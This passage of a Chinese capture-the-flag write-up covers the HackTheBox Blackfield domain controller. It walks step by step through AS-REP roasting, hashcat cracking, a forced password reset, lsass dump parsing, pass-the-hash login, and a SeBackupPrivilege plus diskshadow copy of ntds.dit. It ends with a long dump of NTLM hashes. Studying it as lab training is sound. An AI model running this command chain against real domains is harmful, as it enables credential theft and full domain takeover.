$krb5asrep$23$support@BLACKFIELD.LOCAL:66cb0ef7cb928dc538756693d98d1d09$955335add3758910fdd7349797cb5221ef87c97caa3ed49db4d4b40dd46da72b5027d1498bcd2f439247bfaf778f3bbf037412c43b1a5a6527c3cd811a485f532a55e7fbdbb09629db4da10e650c74586e0ec9dd8e83fce9b5395c4bacaf2f8ac37100224a606d64fc29fd635990fec46b58f463497f860e4e9bc437dbe27232fe42ccc46505d162596591edd300f3276dbc933509db2a4a326e6ef8e76c08cc7c2e1f44a212b8f7083c033ea5aaee7e35affa274d3365f5c02cb01fafc907c3d8f60d17c15f49b9016c87f991581a1ac6aa383d487f810bc347e3b9666b69b47a76bf3a2453c389bdb21a468f3329d931131be3
[-] User svc_backup doesn't have UF_DONT_REQUIRE_PREAUTH set
```

拿hashcat跑出来密码是`#00^BlackKnight`：

```shell
hashcat -m 18200 hash.txt /Users/feng/many-ctf/rockyou.txt --force

$krb5asrep$23$support@BLACKFIELD.LOCAL:379a0e9f83cd45bae21de365b88d9da6$b4bee5e3fdc30ddb1d7e1c2ca3e378aae9beb7d918477bb753c5bf87dc049a6c767031af54c706a8fb944e48b3f38654567427a2e8e8d05c4ce0757b91c606c69237e336b44f7fbf80ad5288b0f4e8e8cfcf3f0664ddb2bb8b7b5ab3b78997bf81cc9b7738c403667bcc691eca96995daf1898e5d919252e6ea1872d22b981a810ce968a143234927710ac24ee01e1e5df9dca3a8695199433de95059ba9a73b18c6bb0eb091718b12338a77c4e4d1eb8831080e8dafefdf87d88b594a027dc345650abf51eedcf107a90ab4da14a4d886fc3d9c433eb3c8ad112b76b375a0e8b6ce3e1d50d126e423cdf4a9ea2a8d053cf2188d:#00^BlackKnight
```


拿evil-winrm登不上去，似乎是没有权限。

看一下smb，发现可读的目录变多了：

```shell
smbmap -u support -p '#00^BlackKnight' -H 10.10.10.192

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
 -----------------------------------------------------------------------------
     SMBMap - Samba Share Enumerator | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB
[*] Established 1 SMB session(s)

[+] IP: 10.10.10.192:445	Name: 10.10.10.192
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	forensic                                          	NO ACCESS	Forensic / Audit share.
	IPC$                                              	READ ONLY	Remote IPC
	NETLOGON                                          	READ ONLY	Logon server share
	profiles$                                         	READ ONLY
	SYSVOL                                            	READ ONLY	Logon server share

```

## BloodHound

使用python版的：

```shell
python3.10 bloodhound.py  -u support -p '#00^BlackKnight' -d blackfield.local --zip -c all -ns 10.10.10.192
```

进入选择support用户，选择node info中的OUTBOUND OBJECT CONTROL：



发现support用户可以强制修改audit2020用户的密码，但是没有命令行，可以在rpcclient里面修改：

```shell
setuserinfo2 audit2020 23 'feng123!'
```

## lsass利用

但是audit2020用户还是没发evil-winrm登录，使用audit2020来smbmap，发现forensic可读了：

```shell
smbmap -u audit2020 -p 'feng123!' -H 10.10.10.192

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
 -----------------------------------------------------------------------------
     SMBMap - Samba Share Enumerator | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB
[*] Established 1 SMB session(s)

[+] IP: 10.10.10.192:445	Name: 10.10.10.192
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	forensic                                          	READ ONLY	Forensic / Audit share.
	IPC$                                              	READ ONLY	Remote IPC
	NETLOGON                                          	READ ONLY	Logon server share
	profiles$                                         	READ ONLY
	SYSVOL                                            	READ ONLY	Logon server share

```

```shell
smbclient //10.10.10.192/forensic -U "audit2020"
Can't load /opt/homebrew/etc/smb.conf - run testparm to debug it
Password for [WORKGROUP\audit2020]:
Try "help" to get a list of possible commands.
smb: \> RECURSE ON
smb: \> PROMPT OFF
smb: \> mget *
getting file \commands_output\domain_admins.txt of size 528 as commands_output/domain_admins.txt (0.4 KiloBytes/sec) (average 0.4 KiloBytes/sec)
getting file \commands_output\domain_groups.txt of size 962 as commands_output/domain_groups.txt (0.7 KiloBytes/sec) (average 0.6 KiloBytes/sec)
getting file \commands_output\domain_users.txt of size 16454 as commands_output/domain_users.txt (14.2 KiloBytes/sec) (average 4.9 KiloBytes/sec)
getting file \commands_output\firewall_rules.txt of size 518202 as commands_output/firewall_rules.txt (175.3 KiloBytes/sec) (average 80.8 KiloBytes/sec)
getting file \commands_output\ipconfig.txt of size 1782 as commands_output/ipconfig.txt (1.6 KiloBytes/sec) (average 69.5 KiloBytes/sec)
getting file \commands_output\netstat.txt of size 3842 as commands_output/netstat.txt (3.5 KiloBytes/sec) (average 61.2 KiloBytes/sec)
getting file \commands_output\route.txt of size 3976 as commands_output/route.txt (3.9 KiloBytes/sec) (average 55.3 KiloBytes/sec)
getting file \commands_output\systeminfo.txt of size 4550 as commands_output/systeminfo.txt (4.1 KiloBytes/sec) (average 50.1 KiloBytes/sec)
getting file \commands_output\tasklist.txt of size 9990 as commands_output/tasklist.txt (7.2 KiloBytes/sec) (average 45.3 KiloBytes/sec)
parallel_read returned NT_STATUS_IO_TIMEOUT
NT_STATUS_IO_TIMEOUT opening remote file \memory_analysis\ctfmon.zip
NT_STATUS_IO_TIMEOUT opening remote file \memory_analysis\dfsrs.zip
NT_STATUS_IO_TIMEOUT opening remote file \memory_analysis\dllhost.zip
NT_STATUS_IO_TIMEOUT opening remote file \memory_analysis\ismserv.zip
NT_STATUS_IO_TIMEOUT opening remote file \memory_analysis\lsass.zip
NT_STATUS_IO_TIMEOUT opening remote file \memory_analysis\mmc.zip
NT_STATUS_IO_TIMEOUT opening remote file \memory_analysis\RuntimeBroker.zip
NT_STATUS_IO_TIMEOUT opening remote file \memory_analysis\ServerManager.zip
NT_STATUS_IO_TIMEOUT opening remote file \memory_analysis\sihost.zip
NT_STATUS_IO_TIMEOUT opening remote file \memory_analysis\smartscreen.zip
NT_STATUS_IO_TIMEOUT opening remote file \memory_analysis\svchost.zip
NT_STATUS_IO_TIMEOUT opening remote file \memory_analysis\taskhostw.zip
NT_STATUS_IO_TIMEOUT opening remote file \memory_analysis\winlogon.zip
NT_STATUS_IO_TIMEOUT opening remote file \memory_analysis\wlms.zip
parallel_read returned NT_STATUS_IO_TIMEOUT
NT_STATUS_IO_TIMEOUT listing \memory_analysis\*
NT_STATUS_INVALID_NETWORK_RESPONSE listing \tools\*
smb: \> getting file \memory_analysis\conhost.zip of size 37876530 as memory_analysis/conhost.zip getting file \memory_analysis\WmiPrvSE.zip of size 18303252 as memory_analysis/WmiPrvSE.zip SMBecho failed (NT_STATUS_CONNECTION_DISCONNECTED). The connection is disconnected now


```

还有一些zip没有下载下来可能是有些大。

commands_output下是很多命令的结果，发现：

```shell
#Administrator组有一个额外的用户Ipwn3dYourCompany
Administrator       Ipwn3dYourCompany  

#domain_users的用户，比之前多了个lydericlefebvre
Guest                    Ipwn3dYouCompany
krbtgt                   lydericlefebvre          support      Administrator            audit2020  


#systeminfo

Host Name:                 DC01
OS Name:                   Microsoft Windows Server 2019 Standard Evaluation
OS Version:                10.0.17763 N/A Build 17763
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Primary Domain Controller
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00431-10000-00000-AA435
Original Install Date:     2/1/2020, 11:04:40 AM
System Boot Time:          2/23/2020, 3:13:56 AM
System Manufacturer:       innotek GmbH
System Model:              VirtualBox
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: Intel64 Family 6 Model 142 Stepping 10 GenuineIntel ~1801 Mhz
BIOS Version:              innotek GmbH VirtualBox, 12/1/2006
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              fr;French (France)
Time Zone:                 (UTC-08:00) Pacific Time (US & Canada)
Total Physical Memory:     2,048 MB
Available Physical Memory: 901 MB
Virtual Memory: Max Size:  5,283 MB
Virtual Memory: Available: 2,891 MB
Virtual Memory: In Use:    2,392 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    BLACKFIELD.local
Logon Server:              \\DC01
Hotfix(s):                 3 Hotfix(s) Installed.
                           [01]: KB4514366
                           [02]: KB4512577
                           [03]: KB4512578
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Desktop Adapter
                                 Connection Name: Ethernet
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 192.168.86.156
Hyper-V Requirements:      VM Monitor Mode Extensions: No
                           Virtualization Enabled In Firmware: No
                           Second Level Address Translation: No
                           Data Execution Prevention Available: Yes

```

看起来这个目录的意思是blackfield.local被黑客入侵过，然后管理员进行了取证，tools下面放的是各种取证工具，memory_analysis里面是内存分析的结果。

想下载`memory_analysis`下面的文件，但是太大了下不下来：

```shell
smb: \> get memory_analysis\lsass.zip
parallel_read returned NT_STATUS_IO_TIMEOUT
```

试了很久无果，跳过此步骤。

lsass.exe是一个系统进程，用于微软Windows系统的安全机制。 用于本地安全和登陆策略，里面存储了明文口令或者hash，因此一般进行lsass内存转储的方式，获取明文口令或者hash。

一般是转成lsass.dmp，读取即可：

```shell
pypykatz lsa minidump lsass.dmp
```

```shell
        == MSV ==                          
                Username: svc_backup                      
                Domain: BLACKFIELD   
                LM: NA                              
                NT: 9658d1d1dcd9250115e2205d9f48400d
                SHA1: 463c13a9a31fc3252c68ba0a44f0221626a33e5c
```

获取了一开始获得的用户名svc_backup 的NT：9658d1d1dcd9250115e2205d9f48400d


这时候终于可以evil-winrm登录了：

```shell
evil-winrm -i 10.10.10.192 -u 'svc_backup' -H 9658d1d1dcd9250115e2205d9f48400d
```


查看一下用户信息：

```shell
net user svc_backup /domain
User name                    svc_backup
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            2/23/2020 10:54:48 AM
Password expires             Never
Password changeable          2/24/2020 10:54:48 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   2/23/2020 11:03:50 AM

Logon hours allowed          All

Local Group Memberships      *Backup Operators     *Remote Management Use
Global Group memberships     *Domain Users
The command completed successfully.
```

发现属于Backup Operators组，查一下是windows的特权组：

| 特权名             | 描述           | 状态 |
| ------------------ | -------------- | ---- |
| SeBackupPrivilege  | 备份文件和目录 |      |
| SeRestorePrivilege | 还原文件和目录 |      |

查一下权限：

```shell
*Evil-WinRM* PS C:\Users\svc_backup\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```


## backup特权组提权

考虑利用：

```shell
*Evil-WinRM* PS C:\Users\svc_backup\Documents> import-module .\SeBackupPrivilegeCmdLets.dll
*Evil-WinRM* PS C:\Users\svc_backup\Documents> import-module .\SeBackupPrivilegeUtils.dll
*Evil-WinRM* PS C:\Users\svc_backup\Documents> Copy-FileSeBackupPrivilege C:\Windows\ntds\ntds.dit .\
```

但是失败了：

```shell
Opening input file. - The process cannot access the file because it is being used by another process. (Exception from HRESULT: 0x80070020)
At line:1 char:1
+ Copy-FileSeBackupPrivilege C:\Windows\ntds\ntds.dit .
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [Copy-FileSeBackupPrivilege], Exception
    + FullyQualifiedErrorId : System.Exception,bz.OneOEight.SeBackupPrivilege.Copy_FileSeBackupPrivilege
```

因为ntds.dit正在被使用，因此要用diskshadow来提取。

## diskshadow利用

写一个script.txt

```shell
set context persistent nowriters
set metadata c:\windows\temp\df.cab
set verbose on
add volume c: alias someAlias
create
expose %someAlias% z:
```

非windows上需要转换一下：

```shell
unix2dos script.txt
unix2dos: converting file script.txt to DOS format...
```

上传过去之后执行：

```shell
diskshadow.exe /s .\script.txt
```

然后读取：

```shell
Copy-FileSeBackupPrivilege z:\Windows\ntds\ntds.dit  C:\Users\svc_backup\Documents\ntds.dit
```

```shell
reg.exe save hklm\system C:\Users\svc_backup\Documents\system.bak
download ntds.dit
download system.bak
```


然后secretsdump.py获取hash：

```shell
python3.10 secretsdump.py  -system ~/github/CTF/Web/渗透/hackthebox/Blackfield/system.bak -ntds ~/github/CTF/Web/渗透/hackthebox/Blackfield/ntds.dit LOCAL -outputfile out.txt
```

```shell
cat out.txt.ntds
Administrator:500:aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:7f82cc4be7ee6ca0b417c0719479dbec:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:d3c02561bba6ee4ad6cfd024ec8fda5d:::
audit2020:1103:aad3b435b51404eeaad3b435b51404ee:600a406c2c1f2062eb9bb227bad654aa:::
support:1104:aad3b435b51404eeaad3b435b51404ee:cead107bf11ebc28b3e6e90cde6de212:::
BLACKFIELD.local\BLACKFIELD764430:1105:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD538365:1106:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD189208:1107:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD404458:1108:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD706381:1109:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD937395:1110:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD553715:1111:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD840481:1112:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD622501:1113:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD787464:1114:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD163183:1115:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD869335:1116:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD319016:1117:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD600999:1118:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD894905:1119:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD253541:1120:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD175204:1121:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD727512:1122:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD227380:1123:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD251003:1124:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD129328:1125:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD616527:1126:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD533551:1127:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD883784:1128:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD908329:1129:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD601590:1130:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD573498:1131:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD290325:1132:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD775986:1133:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD348433:1134:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD196444:1135:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD137694:1136:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD533886:1137:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD268320:1138:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD909590:1139:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD136813:1140:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD358090:1141:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD561870:1142:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD269538:1143:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD169035:1144:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD118321:1145:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD592556:1146:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD618519:1147:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD329802:1148:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD753480:1149:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD837541:1150:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD186980:1151:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD419600:1152:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD220786:1153:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD767820:1154:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD549571:1155:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD411740:1156:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD768095:1157:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD835725:1158:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD251977:1159:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD430864:1160:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD413242:1161:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD464763:1162:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD266096:1163:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD334058:1164:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD404213:1165:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD219324:1166:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD412798:1167:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD441593:1168:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD606328:1169:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD796301:1170:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD415829:1171:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD820995:1172:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD695166:1173:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD759042:1174:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD607290:1175:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD229506:1176:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD256791:1177:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD997545:1178:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD114762:1179:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD321206:1180:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD195757:1181:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD877328:1182:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD446463:1183:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD579980:1184:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD775126:1185:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD429587:1186:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD534956:1187:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD315276:1188:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD995218:1189:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD843883:1190:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD876916:1191:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD382769:1192:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD194732:1193:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD191416:1194:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD932709:1195:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD546640:1196:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD569313:1197:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD744790:1198:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD739659:1199:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD926559:1200:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD969352:1201:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD253047:1202:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD899433:1203:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD606964:1204:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD385719:1205:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD838710:1206:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD608914:1207:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD569653:1208:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
